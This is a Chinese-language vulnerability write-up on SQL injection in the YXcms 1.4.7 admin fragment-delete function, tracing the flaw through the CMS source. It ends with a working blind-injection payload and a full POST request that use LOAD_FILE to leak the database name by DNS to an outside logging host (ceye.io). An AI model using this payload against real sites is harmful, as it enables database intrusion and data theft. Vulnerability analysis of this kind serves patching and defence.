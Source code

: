 # YXCMS 1.4.7SQL注入

> 原文：[https://www.zhihuifly.com/t/topic/3300](https://www.zhihuifly.com/t/topic/3300)

# YXcms 1.4.7 sql注入

## 一、漏洞简介

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

### 漏洞分析

查看漏洞文件protected/apps/admin/controller/fragmentController.php的第63行

```
public function del()
{
    if(!$this->isPost()){
        $id=intval($_GET['id']);
        if(empty($id)) $this->error('您没有选择~');
        if(model('fragment')->delete("id='$id'"))
        echo 1;
        else echo '删除失败~';
    }else{
        if(empty($_POST['delid'])) $this->error('您没有选择~');
        $delid=implode(',',$_POST['delid']);
        if(model('fragment')->delete('id in ('.$delid.')'))
        $this->success('删除成功',url('fragment/index'));
    }
} 
```

我们跟if(model('fragment')->delete("id='$id'")),它会先到protected/core.php文件里面的model

```
function model($model){
    static $objArray = array();
    $className = $model . 'Model';
    if( !is_object($objArray[$className]) ){
        if( !class_exists($className) ) {
            throw new Exception(config('_APP_NAME'). '/' . $className . '.php 模型类不存在');
        }
        $objArray[$className] = new $className();
    }
    return $objArray[$className];
} 
```

然后到protected/apps/admin/model/fragmentModel.php

```
<?php
class fragmentModel extends baseModel{
    protected $table = 'fragment';
} 
```

继续protected/base/model/baseModel.php

```
<?php
class baseModel extends model{
     protected $prefix='';
     public function __construct( $database= 'DB',$force = false ){
        parent::__construct();
        $this->prefix=config('DB_PREFIX');
    }
} 
```

再来到最底层的数据库操作类protected/base/model/model.php的第45行

```
public function delete($condition){
return $this->model->table($this->table, $this->ignoreTablePrefix)->where($condition)->delete();
    } 
```

这个delete()是从哪里来的，我们来看第十三行的代码,创建了一个对象cpModel

```
static public function connect($config, $force=false){
        static $model = NULL;
        if( $force==true || empty($model) ){
            $model = new cpModel($config);
        }
        return $model;
    } 
```

漏洞文件在protected/include/core/cpModel.class.php,

```
public function delete() {
        $table = $this->options['table'];   //当前表
        $where = $this->_parseCondition();  //条件
        if ( empty($where) ) return false; //删除条件为空时，则返回false，避免数据不小心被全部删除

```
 $this-&gt;sql = "DELETE FROM $table $where";
    $query = $this-&gt;db-&gt;execute($this-&gt;sql);
    return $this-&gt;db-&gt;affectedRows();
} 
``` 
```

这里用到了一个方法_parseCondition()

```
private function _parseCondition() {
        $condition = $this->db->parseCondition($this->options);
        $this->options['where'] = '';
        $this->options['group'] = '';
        $this->options['having'] = '';
        $this->options['order'] = '';
        $this->options['limit'] = '';
        $this->options['field'] = '*';      
        return $condition;      
    }
} 
```

这个函数是在protected/include/core/db/cpMysql.class.php的128行

```
public function parseCondition($options) {
        $condition = "";
        if(!empty($options['where'])) {
            $condition = " WHERE ";
            if(is_string($options['where'])) {
                $condition .= $options['where'];
            } else if(is_array($options['where'])) {
                    foreach($options['where'] as $key => $value) {
                         $condition .= " `$key` = " . $this->escape($value) . " AND ";
                    }
                    $condition = substr($condition, 0,-4);  
            } else {
                $condition = "";
            }
        }

```
 if( !empty($options['group']) &amp;&amp; is_string($options['group']) ) {
        $condition .= " GROUP BY " . $options['group'];
    }
    if( !empty($options['having']) &amp;&amp; is_string($options['having']) ) {
        $condition .= " HAVING " .  $options['having'];
    }
    if( !empty($options['order']) &amp;&amp; is_string($options['order']) ) {
        $condition .= " ORDER BY " .  $options['order'];
    }
    if( !empty($options['limit']) &amp;&amp; (is_string($options['limit']) || is_numeric($options['limit'])) ) {
        $condition .= " LIMIT " .  $options['limit'];
    }
    if( empty($condition) ) return "";
    return $condition;
} 
``` 
```

里面有一个行数来过滤escape,我们找到74行的这个函数定义

```
public function escape($value) {
        if( isset($this->_readLink) ) {
            $link = $this->_readLink;
        } elseif( isset($this->_writeLink) ) {
            $link = $this->_writeLink;
        } else {
            $link = $this->_getReadLink();
        }

```
 if( is_array($value) ) { 
       return array_map(array($this, 'escape'), $value);
    } else {
       if( get_magic_quotes_gpc() ) {
           $value = stripslashes($value);
       } 
        return  "'" . mysql_real_escape_string($value, $link) . "'";
    }
} 
``` 
```

不过这个函数有一句is_array如果是数组才会执行下面的过滤，如果不是的话就正常执行下去,没有任何sql的过滤就造成了注入漏洞。

### 复现

这个盲注可以用http://ceye.io和python脚本跑

```
http://0-sec.org/index.php?r=admin/fragment/index 
```

payload:

```
1 and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc'))),1,1))-- 
```

*   `点击删除` 

post包

```
POST /index.php?r=admin/fragment/del HTTP/1.1

Host: [0-sec.org](http://0-sec.org)

User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 188

Referer: [http://127.0.0.1/index.php?r=admin/fragment/index](http://127.0.0.1/index.php?r=admin/fragment/index)

Cookie: PHPSESSID=bbei6n32cuevaf1lbi0n79rdj2;

Connection: close

Upgrade-Insecure-Requests: 1 `delid%5B%5D=select LOAD_FILE((CONCAT(’\\’,(SELECT DATABASE()),’.8571e594.2m1.pw\abc’)))&**hash**=529fbedab8a7b8a3f3f5a0f394f51cf2_08ebfXTKPoKd0tX4iq+aFMwhq5QkkRGC/NfUu/Ny83+UmU8u0MoCIj8` 
```

![image](img/24c7a63a1e81924a20a78b423055d572.png)

然后用burp截获数据，修改内容加上我们的payload，用原文的payload后面+会报错

![image](img/16eb70448907b800a36fee76a8e79a66.png)

然后进入http://ceye.io/records/dns 查看我们的数据

![image](img/530cca24c637aeefc9e616ab84b290d2.png)